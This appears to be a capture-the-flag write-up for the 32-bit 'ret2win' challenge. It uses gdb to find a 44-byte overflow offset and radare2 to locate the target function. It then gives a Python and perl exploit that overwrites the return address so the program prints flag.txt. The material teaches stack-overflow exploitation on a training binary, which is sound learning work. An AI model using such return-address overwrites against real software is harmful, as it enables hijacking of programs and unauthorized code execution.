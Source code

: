 # ret2win

Let's see what the binary does:

```
./ret2win32
```

![](0.png)

My input was `ch35hireC4t` and the program ended.

OK. Now pay attention now to the big clue provided: **"I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer"**.

Let's start investigating:
1. Is it possible to overwrite the return address easily?
2. If so, where will we direct the program?

(Remember: the goal is to print the contents of `flag.txt`)

## Exploration
### Is it possible to overwrite the return address easily?
```
gdb ./re2win
```
```
r <<< $(python3 -c 'print("A"*44 + "B"*4)')
```
![](1.png)

### If so, where will we direct the program?
```
nm ret2win32 | grep " t "
```
![](2.png)

Maybe `ret2win` is our target?<br />
Let's see

```
r2 ./ret2win32
```
```
aaa
```
```
afl
```
```
s sym.ret2win
```
```
pdf
```
![](3.png)

Yes.

## Building exploit
```python
import struct

# create the exploit
garbage      = b'A'*44
ret2win_addr = struct.pack("<L", 0x0804862c)
expoit       = garbage + ret2win_addr

# using this output as ./ret2win32 input
print(expoit)
"""
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,\x86\x04\x08'
"""
```
```
echo $(perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,\x86\x04\x08"') | ./ret2win32
```

![](4.png)
